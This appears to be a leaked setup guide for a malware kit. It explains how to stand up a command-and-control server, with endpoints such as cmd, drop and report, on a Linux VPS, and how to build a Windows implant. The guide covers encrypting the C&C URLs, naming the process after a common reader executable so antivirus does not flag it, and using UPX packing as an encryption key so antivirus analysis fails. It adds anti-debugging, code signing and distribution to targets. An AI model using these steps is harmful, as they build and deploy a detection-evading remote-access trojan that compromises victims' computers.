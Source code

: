 TEST

SETUP GUIDE
============


Server Side Instructions:
===========================
In order to setup the control panel, you will need a linux VPS with root access.
You only need to do this once.
I recommend ubuntu as it is easier to get and install packages required to build the control panel.

1.Download the Files
2. Upload QT folder to the server

2.2. You now have to install qtcreator before compiling, under ubuntu please issue the following command as root:
apt-get install qtcreator


2.3. Now go to the p folder (cd p/) and edit your config file common.h, this file is quite stright forward as you can see:

This is where your domain goes:
#define P_HOSTNAME                                     "bitspeercachedetect.com"

These are required for SSL support:
#define P_PEM_CERT                            "bitspeercachedetect.com.cert.pem" // Your SSL certificate file
#define P_PEM_KEY                              "bitspeercachedetect.com.key.pem" // Your private SSL key file
#define P_PEM_CHAIN                                              "gd_bundle.crt" // Godaddy certificate bundles

You can get the last file from https://certs.godaddy.com/anonymous/repository.pki considering you SSL certificate is from Godaddy.
You don't need to use SSL but it is highly recommended for obvious reasons.

- Other configuration options are just for fine tuning but work perfectly fine the way they are, don't change them unless you've read the entire (yes, the entire) code !!

2.4 Compile the code using these 2 commands:
qmake
make
This will take a while as it is quite a lot of code.

2.5 Once done compiling you need to setup one last thing. cd to the htroot directory. (command: cd htroot)
- Create a folder with your domain name, for example: mkdir my.domain.com
- run the following command, replace my.domain.com with your C&C domain:
cp -R localhost/* my.domain.com/

- cd to the cgi-bin dir under your domain's folder, ie: cd my.domain.com/cgi-bin
- Now run the following commands:
touch clock
touch cmd
touch dir
touch drop
touch ip
touch list
touch noop
touch otp
touch otpgen
touch report
touch session

- go back to domain (cd ..) folder and run command mkdir static-files
- go inside folder static-files run this command:
ln -s  ../../../htbits/sessions/ gpe3c55teci1r975ihvfxkjexvzd3z4z

- Make sure no other webserver is running (like apache2 or nginx), if they are just stop them
/etc/init.d/nginx stop
/etc/init.d/apache2 stop
apache2ctl stop

- All done! Now go back to the main folder (p) and execute the webserver: ./p &
- You might want to setup a cron job that checks and runs the file if it is not running.

In order to login you must generate a One-Time-Password using the following link:
http://my.domain.com/cgi-bin/otpgen?cred={6jsi84qp-z1vi-xt14-nl6q-cdhbq3w7qrmt}
- Then take this password and use it @ login:
http://my.domain.com/cgi-bin/list

Notice that if you are not using SSL you will still be redirected to a SSL link (https://) - Just replace this with http:// and you should be good.







Client Side Setup:
===================

Requirements:
--------------
1. Visual Studio (2010 is recommended but others should work with no problems)
2. Stringprotect.exe (provided with this code)
3. UPX version 3.07 (!)


1. Extract the file p2-export.tar.bz2 to any location.

2. Go to the folder named "d" and open d.sln.
- You might be asked to convert the file depending on your version of visual studio. Do it if you are asked.

3. In visual studio, find the file named common.h and open it on your screen, this is the config file for the client side.

4. You will see 2 sets of config, 1 that doesnt use string protect and 1 that does. You only need to change the encrypted strings. Unencrypted is only for reference and debugging.

- Open the string encryption tool (stringprotect.exe) provided to you by me in the archive.
- First, we want to change the URLs of the C&C:
- In the tool write the following, be sure that my.domain.com is the actual domain you are using:
S("http://my.domain.com/")
if you want SSL support use https:
S("https://my.domain.com/")
* !! YOU MUST HAVE A REAL AND VALID SSL CERTIFICATE FOR THIS DOMAIN IF YOU WANT TO USE SSL !! *

This will results in an encrypted strings in the second box, copy that strings [without the "S(" and ")" just the \x5c... part] into the right place of common.h so it looks like this:

#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:
http://my.domain.com/cgi-bin/noop?id=
so in stringprotect.exe you write:
S("http://my.domain.com/cgi-bin/noop?id=")
and copy encrypted string to the right location at common.h so it looks like:

#define REQUEST_NOOP L"\x5c\x5b ..."

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


--- *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
    ===========================================
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }

comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe

- Now your file is ready to be digitally signed with signtool and sent to your clients :)
https://www.google.com/search?q=signtool
I recommend using like this from cmd.exe:
signtool /signwizard

Don't forget to use time-stamp url so the signature will be valid forever.


Good Luck!









Extra info:
-----------
This is a very big and complex code. Not the every-day skid quality.
If you are making changes to it there are some things you should be aware of:

String encryption is quite a simple encryption code found in main.cpp.

The encryption key is part of the binary file (after compiled). It is the string of the UPX version.
"3.07(0x00)UPX"
This is why you must use upx 3.07 to pack the file.
This also insures that if AV unpacks the file from UPX to analyze - it cannot run correctly and will crash.

Wintrust is also used to ensure that the file has been signed.
If the fils is not signed (and if you didn't change the source code) - The file will not run.
This way tampering and static analysis is quite impossible. Unless you want to analyze a upx packed file :-)
Other anti-debgging techs are implanted into the code and you can find them mostly in main.cpp



upx 3.0.7
windows sdk
pscp
visual studio 2010
putty.exe

VPS Ubuntu 14.04 LTS (32bit)
Thanks and Much Love ~ -0xret2plt

ONE MORE NOTE:
GetVersionExA is "deprecated" but apparently RtlGetVersionExA is "not"
